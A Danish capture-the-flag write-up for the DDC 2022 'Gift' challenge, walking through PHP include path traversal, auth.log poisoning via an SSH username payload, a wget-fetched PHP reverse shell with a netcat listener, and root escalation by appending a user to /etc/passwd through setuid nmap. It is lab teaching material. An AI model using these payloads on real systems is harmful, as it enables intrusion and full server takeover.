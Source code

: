 ```yaml
---
layout: post
title:  "DDC 2022 'Gift' Writeup"
date:   2022-05-07 16:17:46 +0200
categories: writeups
---
```

# Gift
Dette er mit writeup for Gift, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `gift.hkn` på screenshots)

Ihvertfald er `Gift` en `boot2root` challenge hvor hensigten er at udnytte et `php include` statement til at udføre `log poisoning` igennem  `auth.log`.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```
root@d993e6b1ec7c:/# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 18:47 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Hvilket viser `ssh` åben på port 22 og vores `webserver` på 8000.

Webserveren viser dope ass billeder af henholdsvis mig og mrbeef (skud ud til amar også).

Hvis man trykker `view source` kan man se at der er et link til backup som viser source koden.

```php
<!DOCTYPE html>
<style>
.container {
  display: flex;
  justify-content: center;
}
.center{
    position: absolute;
}
</style>
<html>
<body>
<div class="container">
  <div class="center"><h1>Er det MrBeef eller 0xlimE? Det er ihvertfald giftigt</h1></div>
    <br>


<?php
$pics = range(1,13);
echo("<div class='center' style='width:1000px; height:1000px; margin-top: 100px; background-image: url(\"pics/".$pics[rand(0, count($pics) - 1)].".png\");'></div>");
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}

?>

</div>

<div style="display: none;">
<a href ="secretSAUCE/src.zip">Source here</a>
</div>
</body>
</html>
```

Der er et farligt farligt `php include` parret med `path traversal` se mere her: https://medium.com/@emmapinheiro42/php-include-ignore-4a3ba81371af

Vi kan prøve at inkludere `/var/log/auth.log` for at se om vi kan `forgifte` den log.

![authlog](/assets/auth.log.jpg)

Yes det virker. Vores næste step er at få noget php kode ind i loggen, som vi kan udnytte.

Vi logger ind med

```
ssh '<?php echo(system($_GET["a"])); ?>'@gift.hkn
```

skriver et forkert password, og prøver at inkludere loggen igen med parameter fra payload ovenover.

![logpoison](/assets/logpoison.jpg)

ok vi har command execution.

Lad os få en mere stabil reverse shell, jeg har god erfaring med at skrive den her php revshell til en fil og bruge den https://gist.github.com/rshipp/eee36684db07d234c1cc

Lav en fil på din angriber maskine, kald den for `rev.php` og læg din egen ip ind, host den med en python3 server `python3 -m http.server 80` og hent den ned til target ved at kalde.

```
http://gift.hkn:8000/?adminDebug=../../../../../var/log/auth.log&a=wget http://DIN IP HER/rev.php
```

herefter kan du trigger din reverse shell ved først at køre `nc -lvnp 1234` på din angriber maskine, og så gå til `gift.hkn/rev.php`

![revshell](/assets/revvy.jpg)


ok så er vi på maskinen.

Her laver du så standard linux privesc enum, jeg plejer at bruge linpeas. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Herfra finder du så ud af at `nmap` er installeret på maskinen med `setuid` bit på.

![revshell](/assets/setuid.JPG)

Det betyder at vi kan køre nmap som root brugeren. 

Vi tjekker gtfobins ud.

https://gtfobins.github.io/gtfobins/nmap/

Ok, ser ud til at vi har root read, men vi ved ikke hvad flaget hedder. Vi har også root write, så lad os tilføje en root bruger med et password vi kender.

her er en god artikel om at skrive til /etc/passwd
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/ 

vi vil gerne bruge ovenstående taktik til at skrive en ny bruger, som har root access og som har et password vi kender. Vi kan generere hash for passwordet `a` således:

![revshell](/assets/password.jpg)

Ok, så kigger vi lige på det angreb de beskriver på gtfobins til read.

```bash
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

Det her kan vi modificere en smule til at skrive til `/etc/passwd`

```bash
TF=$(mktemp) && echo 'local f=io.open("/etc/passwd", "ab"); f:write("\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash"); io.close(f);' > $TF && nmap --script=$TF
```

**main points**
* we change the file to `/etc/passwd`
* we change `rb` from read bytes to `ab` append bytes
* we change `read` to `write` .
* we change the payload to write `\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash`

Vi kan køre exploit på remote og prøve at privesc

![revshell](/assets/privesc1.jpg)

lol fuck, ok vi skal have en upgraderet shell, her er en god guide til at få en bedre shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


vi kunne også have lagt en ny ssh nøgle i vores bruger sssh mappe

nu prøver vi

```bash
su root3
Password: a
```

cool vi er root og hopper til `/root` og flag!


![revshell](/assets/flag.jpg)



sry for at have sagt det her er nemt, det er min fejl :(
